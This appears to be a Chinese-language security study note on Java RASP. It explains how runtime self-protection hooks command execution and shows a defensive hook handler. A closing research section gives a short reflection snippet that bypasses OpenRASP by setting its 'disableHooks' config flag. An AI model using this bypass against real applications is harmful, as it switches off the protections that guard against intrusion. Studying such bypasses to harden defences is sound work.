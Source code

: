 前置基础
---

**简介**

Runtime Application Self-protection (RASP) is a security technology that is built or linked into an application or application runtime environment, and is capable of controlling application execution and detecting and preventing real-time attacks. 

by Gartner

**理解何为 自我保护**

栗子（命令执行漏洞）：

WAF、IDS等的安全设备是基于 攻击特征 进行检测 & 拦截，非常依赖于规则（只能阻断已知漏洞攻击）。

而在RASP技术中，应用程序则清楚自己执行了哪些代码，调用了哪些Java API，执行了哪些命令，所以针对该类型的漏洞只需要在涉及的API之前插入防御逻辑即可（可以阻断未知漏洞）。

示例 - Java命令执行的调用栈

```bash
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
exec:620, Runtime (java.lang)
exec:450, Runtime (java.lang)
exec:347, Runtime (java.lang)
main:6, CE01 (CommandExecution.Runtime)
```

示例 - RASP防御本地系统命令执行检测代码

- https://github.com/javasec/javaweb-rasp

```bash
/**
 * RASP防御本地系统命令执行示例
 * Creator: yz
 * Date: 2019-07-23
 */
public class LocalCommandHookHandler {

   private static final HookResult<?> BLOCK_RESULT = new HookResult<Object>(THROW, new RASPHookException(cmdType));

   /**
    * 本地命令执行拦截模块，如果系统执行的CMD命令和请求参数完全一致则直接拦截
    *
    * @param command 执行的系统命令
    * @param event   Hook事件
    * @return Hook处理结果
    */
   public static HookResult<?> processCommand(List<String> command, MethodHookEvent event) {
      String[] commands = command.toArray(new String[0]);

      // 如果当前线程中不包含HTTP请求则不需要检测
      if (event.hasRequest()) {
         RASPHttpRequestContext context       = event.getRASPContext();
         RASPCachedRequest      cachedRequest = context.getCachedRequest();

         // 检测当前请求是否需要经过安全模块检测和过滤且该模块是否是开启状态
         if (!context.mustFilter(cmdType)) {
            return DEFAULT_HOOK_RESULT;
         }

         Set<RASPCachedParameter> cachedParameters = cachedRequest.getCachedParameter();

         // 只过滤请求参数值，忽略请求参数名称，因为参数名出现命令执行的概率太低
         for (RASPCachedParameter parameterValue : cachedParameters) {
            // 请求参数名称
            String key = parameterValue.getKey();

            // 请求参数值
            String[] values = parameterValue.getValue();

            // 请求参数出现的位置
            RASPParameterPosition position = parameterValue.getRaspAttackPosition();

            // 遍历所有的参数值
            for (String value : values) {
               if (StringUtils.isEmpty(value)) {
                  continue;
               }

               // 遍历被执行的系统命令
               for (String cmd : commands) {
                  if (value.equals(cmd)) {
                     // 添加攻击日志记录
                     context.addAttackInfo(new RASPAttackInfo(cmdType, key, commands, position, event, true));

                     return BLOCK_RESULT;
                  }
               }
            }
         }

      }

      return DEFAULT_HOOK_RESULT;
   }

}
```

研究利用
---

### OpenRASP 代码执行 Bypass
> by: potats0

- 原因：安全机制在性能消耗上的让步
- 实现：通过代码执行反射开启"禁用所用hook点"的feature

```java
try{
   Class clazz = Class.forName("com.baidu.openrasp.config.Config");
   Method m = clazz.getMethod("getConfig", null);
   Object o = m.invoke(null, null);
   Field disableHooksF = o.getClass().getDeclareField("disableHooks");
   disableHooksF.setAccessible(true);
   disableHooksF.set(o, true);
}catch(Exception e){
   e.printStackTrace();
}
```
